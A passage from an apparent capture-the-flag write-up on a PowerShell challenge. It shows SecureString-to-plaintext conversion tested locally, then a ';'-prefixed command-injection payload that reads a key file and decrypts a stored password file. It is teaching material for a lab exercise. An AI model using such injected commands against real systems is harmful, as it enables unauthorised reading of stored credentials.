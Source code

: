 As we can see, we were right. This problem is using the techniques we found by Microsoft documentation to decrypt the password with the `ConvertTo-SecureString` cmdlet.

Since we are able to access the powershell shell, we just need to find the command sequence to transform the secure string in readable format. One way to do that is by creating a variable that converts a secure string into a binary string (BSTR). This [post](https://stackoverflow.com/questions/28352141/convert-a-secure-string-to-plain-text) talks about this.

As we can see, we need a series of commands to get what we want. Before attempting on the machine, let's try it out on my local PCs:

```bash
PS /home/kaizen> $secure
System.Security.SecureString
PS /home/kaizen> $BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secure)        
PS /home/kaizen> $BSTR
140321549720616
PS /home/kaizen> $unsecure = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
PS /home/kaizen> $unsecure
hacked
```

But how could we get the plain text version of our `.passwd`? Well, that is where we get to our step 3.

## [](#mindset-step3)Step 3 - Crafting the attack

Now that we understand the basic concepts and the CTF problem, the solution becomes clearer. Take a sip of your coffee, sit back and enjoy our findings!

1. We could detect a command injection vulnerability in this powershell CLI, where when user passes the `;` pipe, we can execute arbitrary code.

2. We know how to convert secure string into plain text.

Uniting both, we can build the perfect attack! How about something like:

```bash
; $key2 = Get-Content $KeyFile; $SecurePassword = Get-Content .passwd.crypt |
ConvertTo-SecureString -key $key2; $BSTR = [System.Runtime.InteropServices.Marsh
al]::SecureStringToBSTR($SecurePassword); $PlainPassword = [System.Runtime.Inter
opServices.Marshal]::PtrToStringAuto($BSTR); echo $PlainPassword
```

Let's understand this injection: first, we create a variable called `$key2` which will read the contents of the `$KeyFile` variable. After that, we proceed to decrypt the `.passwd.crypt` into a secure string using the `ConvertTo-SecureString` cmdlet, storing the result into `$SecurePassword` variable. After that, we simply apply our conversion from secure string to binary string, then to plain text, as we did in Step 2.

If everything runs smoothly, we shall solve this problem.


## [](#mindset-step4) Step 4 - Solving!
